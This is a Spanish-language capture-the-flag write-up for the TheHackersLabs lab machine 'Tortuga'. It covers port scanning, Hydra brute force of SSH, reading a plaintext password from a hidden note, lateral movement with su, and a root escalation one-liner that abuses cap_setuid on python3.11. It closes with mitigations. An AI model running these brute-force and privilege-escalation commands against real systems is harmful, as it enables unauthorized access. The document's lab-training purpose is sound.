## Información General

| Campo             | Detalle                |
| ----------------- | ---------------------- |
| Máquina           | Tortuga (Isla Tortuga) |
| Plataforma        | TheHackersLabs         |
| Dificultad        | Facil                  |
| Sistema Operativo | Linux (Debian 12)      |
| IP objetivo       | 192.168.241.170        |
| Autor             | elc0ket                |

## Resumen del Ataque

La máquina presenta una web temática pirata con dos páginas secundarias (`mapa.php` y `tripulacion.php`) que, mediante pistas narrativas insertadas en el propio contenido, apuntan a un usuario (`grumete`) y sugieren revisar notas ocultas en su directorio personal. Una fuerza bruta SSH contra `grumete` con Hydra y rockyou.txt tiene éxito con una contraseña trivial (`1234`). Dentro del sistema, un fichero oculto (`.nota.txt`) en el home contiene en texto plano la contraseña del usuario `capitan`, lo que permite el salto lateral con `su`. Ya como `capitan`, la enumeración de capabilities con `getcap` revela que `python3.11` tiene asignada `cap_setuid=ep`, lo que permite escalar directamente a root abusando de dicha capability.

## Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-` y `-sC -sV`)
- Reconocimiento web y lectura de pistas en el contenido de la página
- Fuerza bruta de credenciales SSH con Hydra + rockyou.txt
- Lectura de ficheros ocultos en el home del usuario (credenciales en texto plano)
- Movimiento lateral con `su`
- Enumeración de capabilities de Linux con `getcap`
- Escalada de privilegios abusando de `cap_setuid` sobre el binario `python3.11`

## Desarrollo

### 1. Escaneo de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.170
```



### 2. Enumeración de servicios

```
nmap -p 22,80 -sC -sV -oN allports 192.168.241.170
```



### 3. Reconocimiento web

```
http://192.168.241.170/
```



Revisando el código fuente se localizan los dos enlaces internos: `mapa.php` y `tripulacion.php`.

### 4. Página "tripulación" — pista del usuario

```
http://192.168.241.170/tripulacion.php
```



Se identifican posibles usuarios del sistema por el nombre de los personajes: destaca "Grumete" como candidato más plausible para un nombre de usuario real (`grumete`).

### 5. Página "mapa" — pista adicional

```
http://192.168.241.170/mapa.php
```



El texto confirma directamente el nombre de usuario `grumete` y adelanta que existe una nota oculta en su directorio home, relevante para pasos posteriores.

### 6. Fuerza bruta SSH

```
hydra -l grumete -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.170 -t 4
```



### 7. Acceso inicial

```
grumete@TheHackersLabs-Tortuga:~$ whoami
```



### 8. Enumeración del home y localización de la nota oculta

```
grumete@TheHackersLabs-Tortuga:~$ ls -la
```



### 9. Flag de usuario

```
grumete@TheHackersLabs-Tortuga:~$ cat user.txt
```



### 10. Lectura de la nota oculta — credenciales del capitán

```
grumete@TheHackersLabs-Tortuga:~$ cat .nota.txt
```



Aunque el fichero pertenece a `root`, sus permisos (`-rw-r--r--`) permiten lectura a cualquier usuario, filtrando así la contraseña del usuario `capitan`.

### 11. Movimiento lateral a capitan

```
grumete@TheHackersLabs-Tortuga:/home$ su capitan
```

```
capitan@TheHackersLabs-Tortuga:/home$ whoami
```



### 12. Enumeración de privilegios (SUID)

```
capitan@TheHackersLabs-Tortuga:/home$ find / -perm -4000 -type f 2>/dev/null
```



Ningún SUID de la lista resulta explotable de forma directa. Se continúa la enumeración revisando capabilities de Linux.

### 13. Enumeración de capabilities

```
capitan@TheHackersLabs-Tortuga:/home$ getcap -r / 2>/dev/null
```



El binario `/usr/bin/python3.11` tiene asignada la capability `cap_setuid=ep`, lo que permite a cualquier proceso lanzado con ese intérprete asumir el UID que desee, incluyendo el de root.

### 14. Escalada de privilegios

```
capitan@TheHackersLabs-Tortuga:/home$ /usr/bin/python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

```
root@TheHackersLabs-Tortuga:/home# whoami
```



### 15. Flag de root

```
root@TheHackersLabs-Tortuga:/home# cd /root
root@TheHackersLabs-Tortuga:/root# cat root.txt
```



## Lecciones Aprendidas

- El propio contenido narrativo de una web puede filtrar información sensible (nombres de usuario reales) si no se separa la ambientación de los datos operativos.
- Un fichero perteneciente a root pero con permisos de lectura para "otros" (`-rw-r--r--`) es tan explotable como si perteneciera al propio usuario: los permisos importan más que el propietario.
- Las capabilities de Linux (`cap_setuid`, etc.) son un vector de escalada tan efectivo como los binarios SUID, pero se pasan por alto con frecuencia si solo se audita con `find -perm -4000`.
- Contraseñas triviales (`1234`) siguen siendo la vía de entrada más rápida en máquinas con SSH expuesto sin ningún tipo de limitación de intentos.

## Medidas de Mitigación

- Ajustar los permisos de ficheros sensibles en los homes de usuario (`chmod 600`) para que solo el propietario pueda leerlos, especialmente si contienen credenciales.
- No almacenar contraseñas en texto plano en ningún fichero, ni siquiera "notas" internas; usar gestores de secretos.
- Auditar periódicamente las capabilities asignadas a binarios del sistema (`getcap -r /`) y retirar las que no sean estrictamente necesarias, en particular `cap_setuid` sobre intérpretes como Python.
- Aplicar políticas de contraseñas fuertes y mecanismos de bloqueo/ratelimiting (fail2ban) frente a fuerza bruta SSH.
- Evitar filtrar nombres de usuario reales a través del contenido público de la aplicación web.


